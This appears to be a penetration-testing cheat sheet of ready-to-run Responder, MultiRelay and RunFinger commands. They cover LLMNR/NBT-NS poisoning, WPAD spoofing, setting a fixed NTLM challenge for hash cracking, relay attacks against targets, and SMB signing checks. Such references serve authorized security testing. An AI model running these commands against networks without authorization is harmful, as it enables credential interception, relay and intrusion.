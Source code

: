 # responder

% responder, LLMNR, NBT-NS, Poisoning, man in the middle

## Responder - Launch Basic Listener
Launches Responder on a specified interface to listen for LLMNR/NBT-NS/mDNS queries.
#plateform/linux #target/remote #cat/ATTACK/MITM 
```
responder -I <interface>
```

## Responder - Launch in Analyze Mode (No Poisoning)
Launches Responder in analyze-only mode, preventing any poisoning.
#plateform/linux #target/remote #cat/RECON 
```
responder -I <interface> -A
```

## Responder - Launch with WPAD File
Launches Responder with WPAD proxy enabled.
#plateform/linux #target/remote #cat/ATTACK/MITM 
```
responder -I <interface> --wpad
```

## Responder - Enable HTTP Server
Enables the HTTP server in Responder's configuration.
#plateform/linux #target/local #cat/UTILS
```
sed -i 's/HTTP = Off/HTTP = On/g' /opt/Responder/Responder.conf && cat /opt/Responder/Responder.conf | grep --color=never 'HTTP ='
```

## Responder - Disable HTTP Server
Disables the HTTP server in Responder's configuration.
#plateform/linux #target/local #cat/UTILS
```
sed -i 's/HTTP = On/HTTP = Off/g' /opt/Responder/Responder.conf && cat /opt/Responder/Responder.conf | grep --color=never 'HTTP ='
```

## Responder - Enable SMB Server
Enables the SMB server in Responder's configuration.
#plateform/linux #target/local #cat/UTILS
```
sed -i 's/SMB = Off/SMB = On/g' /opt/Responder/Responder.conf && cat /opt/Responder/Responder.conf | grep --color=never 'SMB ='
```

## Responder - Disable SMB Server
Disables the SMB server in Responder's configuration.
#plateform/linux #target/local #cat/UTILS
```
sed -i 's/SMB = On/SMB = Off/g' /opt/Responder/Responder.conf && cat /opt/Responder/Responder.conf | grep --color=never 'SMB ='
```

## Responder - Set NTLM Challenge
Sets the NTLM challenge for cracking.
#plateform/linux #target/local #cat/UTILS

= challenge: 1122334455667788
```
sed -i 's/Challenge =.*$/Challenge = <challenge>/g' /opt/Responder/Responder.conf && cat /opt/Responder/Responder.conf | grep --color=never 'Challenge ='
```

## Responder - Reset NTLM Challenge
Resets the NTLM challenge to its default value.
#plateform/linux #target/local #cat/UTILS
```
sed -i 's/Challenge =.*$/Challenge = 1122334455667788/g' /opt/Responder/Responder.conf && cat /opt/Responder/Responder.conf | grep --color=never 'Challenge ='
```

## MultiRelay - Attack with User Filter
Performs a MultiRelay attack, filtering for specific users (requires HTTP and SMB disabled in Responder.conf).
#plateform/linux #target/serve #cat/ATTACK/MITM 
```
multirelay -t <ip> -u <user1> <user2>
```

## MultiRelay - Attack All Users
Performs a MultiRelay attack targeting all users (requires HTTP and SMB disabled in Responder.conf).
#plateform/linux #target/serve #cat/ATTACK/MITM 
```
multirelay -t <ip> -u ALL
```

## Runfinger - SMB Signing Check
Responder-related utility which will finger a single IP address or an IP subnet and will reveal if a target requires SMB Signing or not.
#plateform/linux #target/remote #cat/RECON 
```
runfinger -i <network_range>
```
